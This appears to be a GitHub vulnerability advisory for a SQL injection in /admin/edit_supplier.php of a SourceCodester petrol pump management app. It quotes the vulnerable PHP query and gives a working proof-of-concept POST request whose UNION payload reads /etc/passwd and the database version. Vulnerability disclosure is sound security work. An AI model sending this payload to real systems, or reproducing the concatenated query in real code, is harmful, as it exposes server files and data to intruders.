 # SOURCECODESTER / Petrol pump management software - edit_supplier.php SQL Injection Auth Bypass

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>
> Russel James Avenido (https://github.com/lucishtml/lucishtml)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/edit_supplier.php

## Code
```php
  $stmt = $conn->prepare("SELECT * FROM `supplier` WHERE id='" . $_POST['id'] . "' ");
                                    $stmt->execute();
                                    $record = $stmt->fetchAll();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/edit_supplier.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=1'+UNION+SELECT+1,load_file('/etc/passwd'),3,4,version(),6,7--+-
```

## Screenshot
